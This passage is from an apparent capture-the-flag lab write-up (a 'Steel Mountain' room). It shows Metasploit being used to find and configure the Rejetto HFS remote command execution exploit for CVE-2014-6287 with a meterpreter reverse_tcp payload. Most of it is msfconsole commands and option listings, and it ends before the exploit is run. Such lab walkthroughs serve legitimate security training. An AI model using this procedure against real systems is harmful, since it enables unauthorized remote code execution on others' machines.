 <div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/steelmountain/google.png" title="Google It" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Run msfconsole.  The q option suppresses the ASCII art.  Search for the CVE indicated in the Google search.  There was only one result and chose to use that option.  Show the options for that exploit.  Set the rhosts and rport options.  Since I am using the provided Attack Box, I don't need lport.  Use exploit to launch the exploit and get the meterpreter response.

{% raw %}
```bash
root@ip-10-10-30-38:~/Rooms/steelmountainmsfconsole -q
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf6 > search cve-2014-6287

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use exploit/windows/http/rejetto_hfs_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.30.38      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

```